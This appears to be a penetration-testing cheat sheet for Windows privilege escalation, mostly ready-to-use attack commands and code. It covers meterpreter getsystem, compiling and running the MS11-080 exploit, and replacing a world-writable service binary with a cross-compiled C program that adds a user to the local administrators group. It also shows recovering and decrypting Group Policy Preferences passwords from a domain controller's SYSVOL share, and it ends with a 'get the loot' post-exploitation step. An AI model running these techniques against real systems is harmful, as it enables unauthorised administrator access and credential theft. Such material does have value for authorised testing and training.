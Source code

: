 Windows Privilege Escalation
Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

Try the getsystem command using meterpreter - rarely works but is worth a try. meterpreter > getsystem

Metasploit Meterpreter Privilege Escalation Guide https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

Windows MS11-080 - http://www.exploit-db.com/exploits/18176/
python pyinstaller.py --onefile ms11-080.py
mx11-080.exe -O XP

Powershell Priv Escalation Tools https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user.
icacls scsiaccess.exe

scsiaccess.exe
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
Everyone:(I)(F)

Compile a custom add user command in windows using C
root@kali:~# cat useradd.c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */
int main ()
{
int i;
i=system ("net localgroup administrators low /add");
return 0;
}

i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

Group Policy Preferences (GPP)
A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

map the Domain controller SYSVOL share
net use z: \\dc01\SYSVOL

Find the GPP file: Groups.xml
dir /s Groups.xml

Review the contents for passwords
type Groups.xml

Decrypt using GPP Decrypt
gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB

Find and display the proof.txt or flag.txt - get the loot! #meterpreter > run post/windows/gather/win_privs
